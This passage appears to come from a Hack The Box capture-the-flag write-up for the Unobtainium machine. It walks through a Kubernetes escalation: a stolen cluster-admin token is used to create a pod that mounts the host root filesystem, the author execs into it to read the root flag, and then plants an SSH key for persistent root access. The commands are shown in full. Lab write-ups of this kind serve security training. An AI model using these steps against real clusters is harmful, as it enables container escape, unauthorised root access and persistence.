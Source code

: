 
I choose alpine because it’s smaller, but I later tested and node_server works
too.

I’ve added the host filesystem `/` as a mount point inside the container.

Pods (like Docker containers) run until their main command is done. I’ll just
add a long sleep as the main command (`tail -f /dev/null` is another good one
to hold priority).

Now I’ll start the container with the `apply` command:

    
    
    oxdf@parrot$ kubectl apply -f root.yaml --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt
    pod/evil0xdf created
    

The `exec` command allows me to run `/bin/sh` inside the container:

    
    
    oxdf@parrot$ kubectl exec evil0xdf --stdin --tty -n kube-system --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt -- /bin/sh
    / # 
    

I can grab `root.txt`:

    
    
    /mnt/root # cat root.txt
    55383ee5************************
    

### Shell as root

Despite my efforts to keep my container running, there seems to be a cron
killing containers every minute or so. And I want a full shell anyway.

I’ll run the two commands again to recreate and get a shell in the container,
and then I’ll write an SSH key. I’ll need to create the `/root/.ssh`
directory:

    
    
    / # cd /mnt/root/
    /mnt/root # 
    /mnt/root # mkdir .ssh
    /mnt/root # echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" > .ssh/authorized_keys
    

Now I can connect as root over SSH:

    
    
    oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.10.235
    Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-70-generic x86_64)
    ...[snip]...
    root@unobtainium:~# 
    

[](/2021/09/04/htb-unobtainium.html)


